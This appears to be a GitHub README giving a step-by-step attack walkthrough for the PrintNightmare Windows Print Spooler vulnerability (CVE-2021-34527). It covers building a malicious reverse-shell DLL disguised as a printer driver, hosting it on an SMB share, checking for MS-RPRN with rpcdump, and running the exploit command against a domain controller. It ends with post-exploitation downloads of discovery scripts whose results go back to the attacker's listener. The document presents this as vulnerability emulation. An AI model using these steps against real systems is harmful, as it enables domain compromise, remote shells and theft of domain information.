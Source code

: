 # PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)
Ref: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file

##Pre-exploitation

Attacker
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443

   Steps to create a reverse shell dll: https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/
4. Run SMB server service and modify the config file
5. Place the faked printer driver to the SMB path
6. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
7. Exploit the vulnerability to the target machine
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>

Target machine
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the 
   Powershell
   PS C:\Users\Administrator> get-service spooler
   PS C:\Users\Administrator> start-service spooler

**e.g. replace <username> with a domain user account login credential

# Guides to emulate the vulnerability
Post-exploitation
Download 2 scripts to discovery local machine and domain group info, then send them back to attacker listener. 

'''powershell
<Invoke-WebRequest -Uri path/to/discovery.bat -o discovery.bat>
<Invoke-WebRequest -Uri path/to/export.bat -o export.bat>
'''

